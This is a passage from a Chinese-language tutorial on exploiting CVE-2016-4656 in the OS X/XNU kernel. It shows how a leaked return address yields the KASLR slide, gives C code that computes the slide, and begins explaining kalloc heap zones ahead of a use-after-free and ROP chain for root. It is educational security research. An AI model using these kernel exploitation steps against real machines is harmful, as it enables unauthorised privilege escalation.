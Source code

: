 现在，我们只需要找到这个函数的 Xrefs。 Hopper 把 Xrefs 列在函数开始的地方的右侧，在 IDA 中需要使用 CMD-X 或者 CTRL-X。

```c
; XREF=sub_ffffff80003933c0+250

...      
ffffff80003934ba         call       _is_io_registry_entry_get_property_bytes    /* the actuall call */
ffffff80003934bf         mov        dword [ds:r14+0x28], eax    /* here's the function return address! */
...
```

在 x86-64 ISA 约定中，call 指令会将地址 0xffffff80003934bf（返回地址）push 到栈中。这个地址会在运行时被偏移，所以现在回去看看我们泄漏的数据吧。

```c
0xffffff80037934bf - 0xffffff80003934bf = 0x3400000
```

现在我们知道地址 0xffffff80037934bf 实际上就是 0xffffff80003934bf 偏移后的地址。让我们来做个数学计算：

```
0xffffff80037934bf - 0xffffff80003934bf = 0x3400000
```

这也是最后一部分的代码：

<table><tbody><tr><td class="gutter"><pre><div class="line">1</div><div class="line">2</div><div class="line">3</div><div class="line">4</div><div class="line">5</div></pre></td><td class="code"><pre><div class="line"><span class="keyword">uint64_t</span> hardcoded_ret_addr = <span class="number">0xffffff80003934bf</span>;</div><div class="line"></div><div class="line">kslide = (*(<span class="keyword">uint64_t</span> *)(buf + (<span class="number">7</span> * <span class="keyword">sizeof</span>(<span class="keyword">uint64_t</span>)))) - hardcoded_ret_addr;</div><div class="line"></div><div class="line"><span class="built_in">printf</span>(<span class="string">"(i) KASLR slide is %#016llx\n"</span>, kslide);</div></pre></td></tr></tbody></table>

当然也可以动态获取我们需要的那个 kernel 文件中的静态地址，但是这已经超出这篇文章的范围了。

现在我们已经有了 slide！在你自己的例子中，这个值将（非常可能）会不同，并且会在每次重启之后改变。我们现在可以创建一个函数的 ROP 链了，然后再触发 UAF 漏洞来执行它，从而获得 root 权限。让我们继续吧！

### Exploiting CVE-2016-4656

现在我们已经有了 kernel slide，我们可以通过 UAF 来继续获得权限。要在各种类型的平台上利用 UAF 漏洞，重要的是要知道堆分配器（heap allocator）是如何工作的。这是因为只有当你对分配器是如何进行分配/释放的操作，有一个清晰的了解之后，才能成功的操控它们。

XNU 的堆分配器被称为 `zalloc`，并且有大量的在线文档讲解它[\[8\]](#reference)[\[9\]](#reference)[\[10\]](#reference)。你也可以阅读位于 XNU 源码树 `osfmk/kern/zalloc.h` 以及 `osfmk/kern/zalloc.c` 中的代码。为了让你能更好的理解之后的利用程序中，我将快速过一遍这些基本概念。

简单地讲，zalloc 在 zones 中组织分配，一个 zone 表示大小相同的分配列表。 最常用的区域是 kalloc 区域。 kalloc 是一个建立在 zalloc 之上的，更高级别的内核分配器。它将请求到的分配大小向上舍入到最接近的二的幂值。因此，注册的 kalloc 区域持有两个分配的权利。在 OS X 上使用 zprint 命令查看输出：

```shell
[jndok:~jndok(Debug)]: sudo zprint | grep kalloc
kalloc.16                     16       1148K       1167K      73472       74733       62742     4K    256
kalloc.32                     32       2160K       2627K      69120       84075       55581     4K    128
kalloc.48                     48       3448K       3941K      73557       84075       67638     4K     85
kalloc.64                     64       5236K       5911K      83776       94584       80523     4K     64
kalloc.80                     80       1100K       1167K      14080       14946       13586     4K     51
kalloc.96                     96       4160K       5254K      44373       56050       41922     8K     85
kalloc.128                   128       2220K       2627K      17760       21018       16915     4K     32
kalloc.160                   160        704K       1037K       4505        6643        4115     8K     51
```